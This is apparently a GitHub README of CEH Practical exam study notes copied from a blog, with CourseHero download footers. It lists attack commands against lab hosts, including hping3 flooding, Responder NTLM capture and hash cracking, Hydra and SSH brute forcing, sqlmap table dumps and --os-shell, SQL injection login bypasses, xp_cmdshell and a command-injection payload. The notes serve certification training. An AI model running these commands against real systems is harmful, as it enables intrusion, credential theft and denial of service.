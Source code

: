 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes


**CEH Practical Notes**
**Module 02: Enumeration**
ping www.moviescope.com –f –l 1500 -> Frame size
tracert www.moviescope.com -> Determining hop count
Enumeration using Metasploit :
msfdb init
service postgresql start
msfconsole
msf > db_status
nmap -Pn -sS -A -oX Test 10.10.10.0/24
db_import Test
hosts -> To show all available hosts in the subnet
db_nmap -sS -A 10.10.10.16 -> To extract services of particular machine
services -> to get all available services in a subnet
SMB Version Enumeration using MSF
use scanner/smb/smb_version
set RHOSTS 10.10.10.8-16
set THREADS 100
run
hosts -> now exact os_flavor information has been updated

**Module 03 : Scanning Networks**
1. Port Scanning using Hping3:
hping3 --scan 1-3000 -S 10.10.10.10
--scan parameter defines the port range to scan and –S represents SYN flag.
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 2/5
2. Pinging the target using HPing3:
hping3 -c 3 10.10.10.10
-c 3 means that we only want to send three packets to the target machine.
3. UDP Packet Crafting
hping3 10.10.10.10 --udp --rand-source --data 500
4. TCP SYN request
hping3 -S 10.10.10.10 -p 80 -c 5
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which
port is assigned, and -c is the count of the packets sent to the Target machine.
5. HPing flood
hping3 10.10.10.10 --flood

**Module 04 : Enumeration**
SNMP Enumeration (161) :
nmap –sU –p 161 10.10.10.12
nmap -sU -p 161 --script=snmp-brute 10.10.10.12
msfconsole
use auxiliary/scanner/snmp/snmp_login
set RHOSTS and exploit
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS and exploit
NetBIOS Enumeration (139) :
nbtstat –A 10.10.10.16
net use
net use \10.10.10.16\e ““\user:””
net use \10.10.10.16\e ““/user:””
NetBIOS Enumerator
Enum4Linux Wins Enumeration :
enum4linux -u martin -p apple -U 10.10.10.12 -> Users Enumeration
enum4linux -u martin -p apple -o 10.10.10.12 -> OS Enumeration
enum4linux -u martin -p apple -P 10.10.10.12 -> Password Policy Information
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 3/5
enum4linux -u martin -p apple -G 10.10.10.12 -> Groups Information
enum4linux -u martin -p apple -S 10.10.10.12 -> Share Policy Information (SMB Shares
Enumeration
Active Directory LDAP Enumeration : ADExplorer

**Module 05 : Vulnerability Analysis**
nikto -h http://www.goodshopping.com -Tuning 1
Nessus runs on https://localhost:8834
Username: admin
Password: password
Nessus -> Policies > Advanced scan
Discovery > Host Discovery > Turn off Ping the remote host
Port Scanning > check the Verify open TCP ports found by local port enumerators
Advanced
Max number of TCP sessions per host and = unlimited
Max number of TCP sessions per scan = unlimited
Credentials > Windows > Username & Password
Save policy > Create new scan > User Defined
Enter name & Target
Schedule tab > Turn of Enabled
Hit launch from drop-down of save.

**Module 06: System Hacking**
NTLM Hash crack :
responder -I eth0
usr\share\responder\logs --> Responder log location
john /usr/share/responder/logs/ntlm.txt
Rainbow table crack using Winrtgen :
Open winrtgen and add new table
Select ntlm from Hash dropdown list.
Set Min Len as 4, Max Len as 6 and Chain Count 4000000
Select loweralpha from Charset dropdown list (it depends upon Password).
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 4/5
rcrack_gui.exe to crack hash with rainbow table
Hash dump with Pwdump7 and crack with ophcrack :
wmic useraccount get name,sid --> Get user acc names and SID
PwDump7.exe > c:\hashes.txt
Replace boxes in hashes.txt with relevant usernames from step 1.
Ophcrack.exe -> load -> PWDUMP File
Tables -> Vista free -> select the table directory -> crack

**Module 08: Sniffing**
http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request
Capture traffic from remote interface via wireshark
Capture > Options > Manage Interfaces
Remote Interface > Add > Host & Port (2002)
Username & password > Start

**Module 13: Hacking Web Servers**
FTP Bruteforce with Hydra
hydra -L /root/Desktop/Wordlists/Usernames.txt -P
/root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11

SSH bruteforce 
nmap [ipaddress] -p 22 --script ssh-brute --script-args userdb=username.txt,pasdb=password.txt (this is to bruteforce ssh)

**Module 14: Hacking Web Applications**
Wordpress
wpscan --url http://10.10.10.12:8080 --enumerate u
WP password bruteforce
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
RCE
ping 127.0.0.1 | hostname | net user

**Module 15: SQL Injection**
SQLMAP Extract DBS
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 5/5
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="xookies xxx" --dbs
Extract Tables
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" -D moviescope --tables
Extract Columns
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" -D moviescope -T User_Login --columns
Dump Data
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" -D moviescope -T User_Login --dump
OS Shell to execute commands
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" --os-shell
Login bypass
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
